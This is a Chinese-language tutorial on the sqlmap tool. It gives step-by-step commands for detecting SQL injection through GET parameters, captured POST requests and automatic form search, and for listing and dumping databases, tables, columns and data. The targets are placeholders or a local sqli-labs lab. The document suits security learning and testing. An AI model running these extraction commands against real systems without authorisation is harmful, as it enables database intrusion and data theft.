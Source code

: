 # SQLMap 使用

# SQLMap 使用

## GET型注入

### 1、判断是否存在注入

假设目标注入点是 `http://xxxxxxx?id=1`，判断其是否存在注入的命令如下：

```
sqlmap.py -u http://xxxxxxx?id=1
```

当注入点后面的参数大于等于两个时,需要加双引号，如下所示。

```
sqlmap.py -u "http://xxxxxxx?id=1&uid=2"
```

​	

### 2、爆出服务器的所有数据库名

```
sqlmap.py -u "http://xxxxxxx?id=1" --dbs
```

​	

### 3、爆出当前网站的数据库名

```
sqlmap -u "http://xxxxxxx?id=1" --current-db
```

​	

### 4、爆出表名

```
sqlmap.py -u "http://xxxxxxx?id=1" -D 库名 --tables
```

​	

### 5、爆出字段名(列名)

```
sqlmap.py -u "http://xxxxxxx?id=1" -D 库名 -T 表名 --columns
```

​	

### 6、爆出数据

```
sqlmap.py -u "http://xxxxxxx?id=1" -D 库名 -T 表名 -C 字段1,字段2 --dump
```

​	

​	

## POST型注入

### 注入方式一：BurpSuite抓包

**BurpSuite抓请求包、复制内容保存到txt文件**

### 1、判断是否存在注入

```
sqlmap.py -r D:\1.txt
```

​	

### 2、爆出服务器的所有数据库名

```
sqlmap.py -r D:\1.txt --dbs
```

- **it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]**
  它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n] 
  输入"Y"
- **for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]**
  对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？ [Y/n] 
  输入"N"
- **POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]**
  POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N] 
  输入"Y"

​	

### 3、爆出当前网站的数据库名

```
sqlmap.py -r D:\1.txt --current-db
```

​	

### 4、爆出表名

```
sqlmap.py -r D:\1.txt -D 库名 --tables
```

​	

### 5、爆出字段名(列名)

```
sqlmap.py -r D:\1.txt -D 库名 -T 表名 --columns
```

​	

### 6、爆出数据

```
sqlmap.py -r D:\1.txt -D 库名 -T 表名 -C 字段1,字段2 --dump
```

​	

> POST型注入也可以用 `-p` 来指定某个参数

​		

### 注入方式二：自动搜索表单

```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-11/ --forms --level=5 --dbs
```

- do you want to test this form? [Y/n/q]
  要测试此表单吗?[Y/n/q] 
  输入"Y"
- do you want to fill blank fields with random values? [Y/n]
  是否要填充带有随机值的空白字段? [Y/n] 
  输入"Y"
- it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
  它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n] 
  输入"Y"
- for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
  对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？[Y/n] 
  输入"N"
- POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
  POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N] 
  输入"N"
- do you want to exploit this SQL injection? [Y/n]
  你想利用[SQL注入](https://so.csdn.net/so/search?q=SQL注入&spm=1001.2101.3001.7020)？ 
  输入"Y"
